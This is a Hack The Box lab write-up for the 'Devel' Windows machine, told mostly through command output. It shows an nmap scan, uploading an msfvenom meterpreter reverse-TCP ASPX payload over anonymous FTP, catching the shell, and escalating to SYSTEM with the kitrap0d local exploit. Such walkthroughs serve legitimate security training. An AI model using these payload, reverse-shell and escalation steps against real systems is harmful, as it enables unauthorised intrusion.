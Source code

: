 # HTB - Devel
## OS - Windows

Devel seems similar to Optimum. I started with an nmap scan of Devel (IP address 10.10.10.5)

```
$nmap -sC -sV -o Devel 10.10.10.5
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-26 16:01 PDT
Nmap scan report for 10.10.10.5
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.71 seconds
```


The scan shows that FTP and HTTP ports are open. Anonymous FTP is on. 
Microsoft IIS server is running, and FTP result shows that iisstart.htm and welcome.png, the files that are served by IIS Server, are in the same file path for FTP.

We can test it by sending a file through FTP. I created a random .htm file (since the other file was a .htm), and FTP'd to Devel VM, and then browsed to http://10.10.10.5/<FILENAME> and it worked.
  
  Tried to use Metasploit for exploitation. Metaspoit has an auxiliary FTP scanner to detect anonymous login (auxiliary/scanner/ftp/anonymous), but I could not figure out how to use that for exploiting. 

  So whatever I send now, has to be through FTP and it should be good enough to have a reverse tcp shell. 
  
 I used Social ENgineering Toolkit to create a payload with reverse_tcp, saved it as .aspx file, and FTP'd to 10.10.10.5. When I brosed to the payload.aspx file though, I got a runtime error. So that did not work. 
 
 I then used msfvenom to generate the payload. This tool has more options.
 
 ```
 msfvenom -p windows/meterpreter/reverse_tcp -f aspx LHOST=10.10.10.5 LPORT=4445 -o payload.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 2798 bytes
Saved as: payload.aspx
┌─[root@parrot]─[/home/vskonda/Downloads/HTB-WriteUps]
└──╼ #ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:vskonda): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
09-30-20  10:14AM                   13 devel-test.htm
03-17-17  05:37PM                  689 iisstart.htm
09-30-20  10:33AM                74162 payload.aspx
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> del payload.aspx
250 DELE command successful.
ftp> put payload.aspx
local: payload.aspx remote: payload.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2834 bytes sent in 0.00 secs (27.3001 MB/s)
ftp> exit
221 Goodbye.
┌─[root@parrot]─[/home/vskonda/Downloads/HTB-WriteUps]
└──╼ #


 
 ```

Now we start metasploit and use exploit/multi/handler, and run the payload on the IIS browser.

````

msf5 exploit(multi/handler) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf5 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.12:5555 
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.12:5555 -> 10.10.10.5:49157) at 2020-09-26 17:11:17 -0700

````

I got a shell, but I did not have enough privileges to go to Users folder. So I used post/multi/recon/local_exploit_suggester  for privilege escalation.

```
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 30 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed

```


I used several of these modules, but the mistake I made is to use "expoit" command instead of "run", so the modules failed. Finally I used "run" and it worked.

```
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 5559
LPORT => 5559
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 172.25.252.98:5559 
[*] Launching notepad to host the exploit...
[+] Process 1412 launched.
[*] Reflectively injecting the exploit DLL into 1412...
[*] Injecting exploit into 1412 ...
[*] Exploit injected. Injecting payload into 1412...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf5 exploit(windows/local/ms10_015_kitrap0d) > show options



msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf5 exploit(windows/local/ms10_015_kitrap0d) > show SESSIONS
[-] Invalid parameter "SESSIONS", use "show -h" for more information
msf5 exploit(windows/local/ms10_015_kitrap0d) > show sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.12:5555 -> 10.10.10.5:49157 (10.10.10.5)

msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.12:5559 
[*] Launching notepad to host the exploit...
[+] Process 4048 launched.
[*] Reflectively injecting the exploit DLL into 4048...
[*] Injecting exploit into 4048 ...
[*] Exploit injected. Injecting payload into 4048...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.12:5559 -> 10.10.10.5:49167) at 2020-09-26 17:21:12 -0700

meterpreter > shell
Process 192 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system
```

There were several tries, with different tools, but ultimately it worked and I got both the flags.
